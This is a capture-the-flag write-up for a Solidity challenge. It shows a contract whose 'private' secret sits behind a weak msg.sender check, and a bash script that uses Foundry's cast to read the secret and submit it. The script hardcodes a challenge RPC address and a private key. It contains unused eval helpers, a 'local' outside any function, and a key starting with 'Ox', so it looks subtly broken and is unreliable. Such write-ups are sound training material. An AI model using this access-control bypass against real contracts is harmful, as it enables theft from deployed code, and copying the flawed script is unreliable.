 ###### Author: TunangannyaChizuru

#### tl;dr

Our goal is to submitSecret() with the correct secret value, as there, it’s redacted. As we get the needed functions, like getSecret and submitSecret, we only need to use them!

#### Searching


![](image44.png)


{{< highlight sol >}}
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract MizuharaSecret {
    bool public solved;

    mapping(uint256 => uint256[]) private secret;
 
    constructor() {
        secret[1337] = [
            0x5245444143544544 // REDACTED
        ];
    }

    function getSecret(
        uint256 key,
        uint256 index
    ) public view returns (uint256) {
        require(msg.sender == address(0), "Youre not mizuhara chizuru");
        return secret[key][index];
    }

    function submitSecret(uint256 _secret) public {
        require(_secret == secret[1337][0], "Wrong secret");
        solved = true;
    }
}
{{< /highlight >}}


{{< highlight bash >}}
#!/bin/bash
set -x

_x(){ local a="$1";shift;eval "$a=\"$*\""; }
_y(){ eval "local $1"; }



eval RPC_SRC="http://108.137.70.166:46716/747b1414-a3d6-4915-8006-7427dce3bc90"
eval PRIV_K="Oxe9af35f7dc3e098295311cdac0462ec56bfa1a5986d51fac47167a5b1f6de9d9"
eval CNTR="0x5BAdbfC9016fD335BcFe27f14fF5F0BCF587f2E9"

local sec_addr=$(cast call "$CNTR" "mizuharaSecret() view returns(address)" --rpc-url "$RPC_SRC" --private-key "$PRIV_K")
local sec_val=$(cast call "$sec_addr" "getSecret(uint256,uint256)" 1337 0 --rpc-url "$RPC_SRC")
cast send "$sec_addr" --rpc-url "$RPC_SRC" --private-key "$PRIV_K" "submitSecret(uint256)" "$sec_val"
